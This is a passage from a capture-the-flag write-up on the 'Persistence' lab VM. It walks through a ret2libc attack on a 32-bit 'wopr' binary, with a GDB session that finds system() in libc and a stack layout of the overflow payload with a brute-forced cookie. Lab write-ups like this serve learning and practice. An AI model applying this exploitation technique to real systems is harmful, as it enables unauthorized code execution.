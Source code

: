The addresses for the linked files remained static between all of the lookups, indicating that ASLR was not enabled. This makes things slightly easier. Because this is a 32bit OS though, even if it was enabled it would not have been too much of a issue :)

The next step was to find out where system() lived in libc. This is also a very easy step to perform. A interesting note here. GDB was using the SHELL env variable for commands, and because I have come from rbash, it was still set to that. A simple `export SHELL=/bin/bash` fixed it though. Also, just to be clear, I am now doing this address lookup on the Persistence VM, however I had to do exactly the same thing on the Kali VM where I was building my exploit.

```bash finding system()
bash-4.1$ export SHELL=/bin/bash

bash-4.1$ gdb -q /usr/bin/telnet 
Reading symbols from /usr/bin/telnet...(no debugging symbols found)...done.
Missing separate debuginfos, use: debuginfo-install telnet-0.17-47.el6_3.1.i686
(gdb) b *main   # set a breakpoint to stop the flow once we hit the main() func
Breakpoint 1 at 0x7b90

(gdb) r         # run the program
Starting program: /usr/bin/telnet 
Breakpoint 1, 0x00117b90 in main ()

(gdb) p system  # We hit our breakpoint, lets leak the address for system()
$1 = {<text variable, no debug info>} 0xb7e56210 <system>
(gdb)
```

We find `system()` at `0xb7e56210`. I used the telnet binary simply because it is also linked to libc.

So to sum up what we have so far, lets take another look at what the stack will look like now when sending our exploit payload:

```text Stack after memory corruption up to EIP
- ->         - ->        [42 Bytes  in Total]        - ->           - >

[   A x 30   ] [  \xff\xff\xff\xff  ] [  AAAA  ] [  \x10\x62\xe5\xb7  ]
 ^~ Initial BF    ^~ Bruted cookie                    ^~ system()

- ->         - ->        [42 Bytes  in Total]        - ->           - >
```

The address for `system()` is 'backwards' because we are working with a [little endian](http://en.wikipedia.org/wiki/Endianness) system. The 4 * A before the address to `system()` is simply padding to EIP.

##wopr - code exec
This part, by far, took me **the longest** of the entire challenge!

The next step was to get actual code to execute using `system()`. While this may sound trivial, it has challenges of its own. One of the key things I had to realize whilst getting frustrated with this was "to remember, you are trying to make a program do what it is not intended to do, expect difficulty!".

I tried to put a command in a env variable and failed.  
I attempted to write a ROP chain and failed.  
